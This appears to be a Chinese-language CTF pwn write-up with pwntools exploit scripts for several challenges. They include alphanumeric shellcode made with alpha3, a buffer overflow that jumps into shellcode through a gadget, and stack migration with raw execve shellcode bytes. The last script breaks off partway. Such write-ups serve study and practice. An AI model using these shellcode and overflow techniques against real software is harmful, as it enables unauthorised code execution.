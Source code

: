 卡在少了最开始的p64(pop_rdi) + p64(bss) 

学长的解释是：
```
改变rdi的gadget地址 使其指向bss段的那个地址 
```


## unusual
用alpha3弄出一个Alphanumeric Shellcode

```py
from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc)
#sc.py

python sc.py > sc

python alpha3/ALPHA3.py x64 ascii mixedcase rax --input="sc"
```

## hard_shelcode


```py
from pwn import *

context.arch = "amd64"
sh = process("./hard_shellcode")
sc = asm(shellcraft.sh())

sub_rsp = asm('sub rsp, 64')
jmp_rsp = asm('jmp rsp')
gadget = 0x04000EA

payload = sc + 'a'*(64-len(sc)) + sub_rsp + jmp_rsp + 'b'*(8-len(sub_rsp)-len(jmp_rsp)) + gadget
#payload = 'a'*16 + sc + sub_rsp + jmp_rsp + 'b'*(8-len(sub_rsp)-len(jmp_rsp)) + p64(gadget) 
## sub rsp,48
 
sh.sendline(payload)

sh.interactive()
```

用gadget跳转到"sub_rsp,jmp_rsp"然后执行sc(shellcode)


## baby_migration

```py
from pwn import *
context(os='linux',arch='amd64')
p = process("./baby_migration")

gets = 0x4011C8
rbp = 0x404060
#shell = asm(shellcraft.sh())
shell = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

payload1 = "a"*0x30 + p64(rbp+300) + p64(gets) 
payload2 = shell + 'b'*(0x30-len(shell)) + p64(rbp ) + p64(rbp+300-0x30)
p.recv()
p.sendline(payload1)
p.recv()
```